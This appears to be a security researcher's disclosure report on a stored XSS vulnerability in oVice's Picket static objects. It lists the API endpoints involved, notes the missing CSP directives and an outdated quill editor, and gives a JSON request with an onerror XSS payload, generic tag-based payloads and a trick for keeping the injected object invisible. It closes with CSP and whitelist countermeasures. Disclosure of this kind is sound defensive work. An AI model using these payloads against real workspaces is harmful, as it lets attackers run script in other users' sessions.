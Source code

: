 ```yaml
---
emoji: 🌞
title: Ovice.in Picket Static Object XSS 0-day Vulnerability Report
author: Zer0Luck
date: '2022-08-01'
categories: 0-day
tags: Web3 vulnerability
---
```


![Ovice.in picket XSS](./sss-2.png)

## Attack Type

- XSS
- Weak algorithm.

## Attack Effect

- Security Check Bypass
- Privilege Escalation

## Found Location

- Users of administrative authority have the authority to create static objects.
- A `Picket object` exists in a Statistic Object.
- `Picket objects` provide a variety of contents using the editor function.

![Static Object Maker](./x_22.png)

```jsx
/console/objects
```

- `/api/v1/object/add` api is called when installing a static object. When clicking on the installed static object, `/api/v1/object/click` api is called. When modifying the installed static object, the `/api/v1/updateStaticObjectData` api is called.

```jsx
/api/v1/object/add
/api/v1/object/click
/api/v1/updateStaticObjectData
```

## Attack Point

- If you have a user account who has permission to modify within the workspace where the static object is installed, you can modify html by activating the function of the `editor`.

![Static Picket Object Editor](./x_24.png)

- It was confirmed that the node `quill` was used, and a 1-day attack could be performed using a version less than 1.3.7 that became a security patch.

![quill editor](./x_23.png)

### Picket Object function

- Administrator authority (default)
- Member's authority.
- Guest authority.
- Visitor Guohan.

## Vulnerability Description

### Client Side Security Check

**Contents-Security-Policy**

- frame-ancestors `none`
    - Defines valid sources for embedding the resource using `<frame> <iframe> <object> <embed> <applet>`. Setting this directive to 'none' should be roughly equivalent to `X-Frame-Options: DENY`
- `script-src` , `object-src` Since CSP Policy is not set, external script loading and requesting are possible.

![csp](./csp-.png)

### Problem with security setting defect in quill-editor

- When selecting an image from a Picket Object installed as a static object, the image is encoded as base 64 and interpreted as an html tag for editing.

![.png](./x_24.png)

- A space for executing javascript may be created using the html tag allowed in the white list as follows.
- Various attacks can be attempted using oVice internal script without space escape.

![exploit-1](./exploit-1.png)
### Static-Object function to strengthen vulnerabilities

- Several functions can be modified when setting up a picket object. `Color, transparency, location, content, shadow,`
- If correction authority exists, transparent objects can be created to make the attack impact higher.

```python
picket_data = {
    "id": f"object_id",
    "data":{
        "auth":"visitor",    
        "width":xpos,
        "height":ypos,
        "return":{"content":"Attack Vector"},
        "shadow": false,
        "border_color":"color",
        "background_color":"color",
        "border_color_opacity":0,
        "background_color_opacity":0
    },
    "workspace_id":"9473"
}
```

![xss-1](./xss-1.png)

- In the case of the picket object function, unlike iframe, it can be created only if it has the right to set, but it basically operates throughout the workspace and can attack invisible xss to the user through the following attribute changes.

## Payload

- An xss attack was performed within the range of tags designated as whitelist.
- Although not all of them were checked, it was confirmed that the rest of the tags were executed except for `script tags`, and based on this, the payload was created.

```jsx
<img src=[] on*event=javascript />
<a href=<inline-javascript> />
<iframe src=<inline-javascript> />
etc ...
```

- When a static object is installed within the worskapce, the attribute can be changed if the corresponding modification authority exists.

```python
picket_data = {
    "id": f"{object_id}",
    "data":{
        "auth":"visitor",    
        "width":421,
        "height":371,
        "return":{"content":"<p><img src="a" onerror="prompt()"></p>"},
        "shadow":true,
        "border_color":"#ffffff",
        "background_color":"#ffffff",
        "border_color_opacity":100,
        "background_color_opacity":100
    },
    "workspace_id":"9473"
}
```
## Security Countermeasure

### Quill-editor security settings are insufficient.

- The object picket can be changed to html through the editor function when an image is registered in using the quill-editor.
- However, it was an XSS attack because all tags except script tags were operated, so it is important to select the necessary tags through a white list method.
- It is recommended to establish a security policy using the functions provided by the editor.

### Let's have a safe client life by applying Content-Security-Policy security.

- Looking at the client-side security techniques of web applications, security techniques for CSPs are currently applied, but only security techniques for `iframe` are applied.
- Of course, due to the nature of the service, I don't think the security policy has been set, but script-src and object-src policies are currently not at stake, so it is possible to load external scripts or request external attacks.
- Therefore, CSP script-src, object-src policies should be set so that only script can be used within the domain ovice.in.

```python
Content-Security-Policy: default-src 'self' https://*.ovice.in
```

- As a result of web application analysis, most cases have statically inserted scripts into html internally, so it is also good to give nonce attributes to allow only the scripts.

```python
Content-Security-Policy: default-src 'nonce-ingjoigrogj/jfeo+iegi=='; base-uri
```

### X-XSS protection Header Settings

- By setting X-XSS protection in the header, it is possible to filter the user's input value through the browser end.

```python
X-XSS-Protection: 1 -> Browser XSS-Filter Enable
```

- Although it can only prevent attacks in which the user's input value is exposed as it is, it can be used as an auxiliary means.

```toc
```

```toc
```